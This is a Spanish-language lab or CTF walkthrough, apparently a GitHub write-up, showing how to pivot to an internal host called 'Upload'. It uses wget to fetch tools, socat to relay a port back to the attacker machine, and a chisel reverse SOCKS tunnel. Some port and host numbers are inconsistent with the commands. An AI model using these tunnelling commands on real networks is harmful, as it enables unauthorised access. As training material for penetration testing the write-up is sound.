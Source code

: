 ![Pasted image 20241016223944](https://github.com/user-attachments/assets/051ac319-ec74-43a6-b20f-b83b061cf4ff)


# Pivoting a 30.30.30.3 (Upload)
----
## Socat

Para llegar a tener comunicación con `30.30.30.3`, podríamos reenviar esto a nuestra máquina atacante con `socat`, por lo descargaremos en `20.20.20.2` con `wget`, para ello podemos descargar el binario desde `github` en nuestra máquina y lo compartiremos por nuestra red local con `python3`

![Pasted image 20241016224423](https://github.com/user-attachments/assets/c595b069-9f2c-41a2-8bee-ac0089bcebaa)

Desde la máquina `20.20.20.2` nos ponemos en escucha en el puerto `1111` y reenviamos la conexión a nuestra máquina atacante por el puerto `9000`

~~~ bash
./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:8000
~~~

![socat 20 20 20 2 puerto 1111](https://github.com/user-attachments/assets/2bdc458c-6223-48ef-9fa1-4288a2f4b687)

- `fork`: Indicamos que `socat` puede recibir más de una conexión por ese puerto

Ahora necesitamos `chisel` en nuestra máquina `20.20.20.3` para poder hacer un escaneo de puertos, por lo que nos descargamos  `chisel` en esta máquina con `wget` 


![chisel_wget](https://github.com/user-attachments/assets/6c49534c-edca-4d4f-9f57-55ac37fdc05b)

No olvidemos dar permisos de ejecución

~~~ bash
chmod +x chisel socat
~~~

Ahora podemos conectarnos a `20.20.20.2:1111` y a través de este puerto estaremos llegando a nuestra máquina atacante

~~~ bash
./chisel client 20.20.20.2:1111 R:socks 
~~~

![tunel_desde_20 20 20 3_a_atacante 1](https://github.com/user-attachments/assets/667e0db1-53a5-4e24-88e4-ac6300b7f14e)

Deberíamos ver una nueva sesión en nuestro servidor `chisel`

![Pasted image 20241016230653](https://github.com/user-attachments/assets/5d86a3c9-6189-4237-be5b-c26ab48f05a2)

### Flujo del tráfico hacia la máquina Upload

Expliquemos un poco el funcionamiento de este nuevo túnel SOCKS5 a través del siguiente diagrama


